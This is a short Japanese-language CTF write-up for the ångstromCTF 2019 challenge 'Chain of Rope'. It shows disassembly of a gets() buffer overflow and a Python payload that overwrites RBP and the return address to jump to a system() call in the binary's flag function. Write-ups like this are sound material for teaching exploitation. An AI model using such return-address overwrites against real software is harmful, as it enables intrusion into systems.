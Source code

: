 // date: 2019-04-24

## ångstromCTF 2019 -「Chain of Rope (80pts)」之解き方

### 問題記載
```
Chain of Rope - 80 points

defund found out about this cool new dark web browser! While he was browsing the dark web he came across this service that sells rope chains on the black market, but they're super overpriced! He managed to get the source code. Can you get him a rope chain without paying?
```

### 解析
getsによってバッファーオーバーフローが可能。
```
401348:	48 8d 45 d0          	lea    rax,[rbp-0x30]
40134c:	48 89 c7             	mov    rdi,rax
40134f:	b8 00 00 00 00       	mov    eax,0x0
401354:	e8 17 fd ff ff       	call   401070 <gets@plt>
```
書込み先から`0x30`バイト超えて、RBPとRIPを奪えられます。

戻り先を考えればflag関数の真ん中でのsystem呼び出しがいいのでしょう。
```
401231:	48 8d 3d 2f 0e 00 00 	lea    rdi,[rip+0xe2f]        # 402067 <_IO_stdin_used+0x67>
401238:	e8 13 fe ff ff       	call   401050 <system@plt>
```

### エクスプロイト
```python
payload = "1\n"                                # メニュー選択
payload += "a" * 0x30                          # パッディング
payload += "\x00\x00\x00\x00\x00\x00\x00\x00"  # $rbp
payload += "\x31\x12\x40\x00\x00\x00\x00\x00"  # $rip (system呼び出し)
print(payload)
```

結局ROPを使わずに解けてしまいました。
